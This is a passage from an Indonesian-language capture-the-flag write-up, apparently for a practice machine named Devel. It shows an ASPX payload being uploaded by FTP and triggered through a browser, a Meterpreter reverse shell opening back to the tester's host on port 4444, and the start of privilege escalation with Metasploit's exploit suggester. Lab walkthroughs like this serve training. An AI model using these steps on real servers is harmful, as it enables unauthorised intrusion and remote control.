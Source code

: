 selanjutnya saya mengupload file aspx yang telah dibuat tadi menggunakan ftp

```bash
ftp> put halah.aspx 
local: halah.aspx remote: halah.aspx
229 Entering Extended Passive Mode (|||49171|)
150 Opening ASCII mode data connection.
100% |*********************| 2903 28.25 MiB/s --:-- ETA
226 Transfer complete.
2903 bytes sent in 00:00 (14.37 KiB/s)
ftp> dir
229 Entering Extended Passive Mode (|||49172|)
125 Data connection already open; Transfer starting.
03-18-17 02:06AM <DIR> aspnet_client
10-14-22 03:04AM 2903 halah.aspx
03-17-17 05:37PM 689 iisstart.htm
10-14-22 02:37AM <DIR> IJXWLJHLQP
10-14-22 03:03AM <DIR> LSRSWHVOZI
10-14-22 02:42AM <DIR> NGPQBPUQBP
10-14-22 02:41AM <DIR> QXWHDTRVPU
10-14-22 03:02AM <DIR> RYPCOZGWIS
10-14-22 02:44AM <DIR> SLKGVHRIWP
10-14-22 02:41AM <DIR> TNWEJUVKYW
10-14-22 02:52AM <DIR> VXCBCGBZWI
03-17-17 05:37PM 184946 welcome.png
```

file tersebut berhasil terupload sesuai expetasi, selanjutnya saya akan mengakses file tersebut melalui browser untuk mentrigger paylaod

![](/home/punktester/.config/marktext/images/2022-10-14-07-06-47-image.png)

```bash
[*] Sending stage (175174 bytes) to 10.129.136.185
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.129.136.185:49173 ) at 2022-10-14 07:06:31 -1000

meterpreter > getuid
Server username: IIS APPPOOL\Web
meterpreter > 
```

Saya berhasil mendapatkan akses server tersebut, namun disini saya harus melakukan privilege escalation untuk mendapatkan akses sepenuhnya dari target. disini saya menggunakan module post **multi/recon/local_exploit_suggester** yang dimana modul ini melakukan pengecheckan terhadap potensi kerentanan lokal

```bash
msf6 post(multi/recon/local_exploit_suggester) > sessions

Active sessions
===============

  Id  Name  Type                     Information              Connection
  --  ----  ----                     -----------              ----------
  1         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL  10.10.14.15:4444 -> 10.129.136.185:49173  (10.129.136.185)

msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION          1                yes       The session to run this module on
```